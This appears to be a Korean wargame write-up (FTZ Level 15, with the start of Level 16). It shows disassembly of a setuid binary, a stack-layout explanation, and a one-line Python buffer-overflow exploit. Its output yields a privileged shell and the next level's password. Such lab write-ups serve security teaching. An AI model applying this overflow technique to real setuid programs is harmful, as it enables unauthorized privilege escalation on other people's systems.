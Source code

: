 ```asm
0x080484a4 <main+20>:	push   eax
; buf
0x080484a5 <main+21>:	call   0x8048360 <fgets>
; fgets(buf,45,stdin)
0x080484aa <main+26>:	add    esp,0x10
; esp + 16
0x080484ad <main+29>:	mov    eax,DWORD PTR [ebp-16]
; eax = ebp-16 주소의 값
0x080484b0 <main+32>:	cmp    DWORD PTR [eax],0xdeadbeef
; if(eax == 0xdeadbeef)
; 0xdeadbeef 주소 0x80484b2
0x080484b6 <main+38>:	jne    0x80484dd <main+77>
0x080484b8 <main+40>:	sub    esp,0x8
0x080484bb <main+43>:	push   0xc18
0x080484c0 <main+48>:	push   0xc18
0x080484c5 <main+53>:	call   0x8048380 <setreuid>
0x080484ca <main+58>:	add    esp,0x10
0x080484cd <main+61>:	sub    esp,0xc
0x080484d0 <main+64>:	push   0x8048548
0x080484d5 <main+69>:	call   0x8048340 <system>
0x080484da <main+74>:	add    esp,0x10
0x080484dd <main+77>:	leave
0x080484de <main+78>:	ret
0x080484df <main+79>:	nop
```
stack 에서 순서는 buf, check, crap 순으로 스택이 쌓이게 된다
1. buf
2. check
3. crap
이런 순서기 때문에 buf 값을 오버플로우 시켜 check에 deadbeef 상수의 주소값을 넣으면 된다.

### 4. exploit code
(python -c 'print "A"*40+"\xb2\x84\x04\x08"';cat) | ./attackme
buf ebp-56 위치이며 check 위치는 ebp-16 위치이기때문에 "A"*40 만큼 채운 후 deadbeef 주소 값을 넣는다.
id
uid=3096(level16) gid=3095(level15) groups=3095(level15)
my-pass
'xterm-256color': unknown terminal type.
Level16 Password is "about to cause mass".

## Level16

### 1. Directory info
-rwsr-x---    1 level17  level16     14017  3월  8  2003 attackme

-rw-r-----    1 root     root          235  3월  8  2003 attackme.c

-rw-r-----    1 root     level16       235  3월  8  2003 hint

drwxr-xr-x    2 root     level16      4096  2월 24  2002 public_html
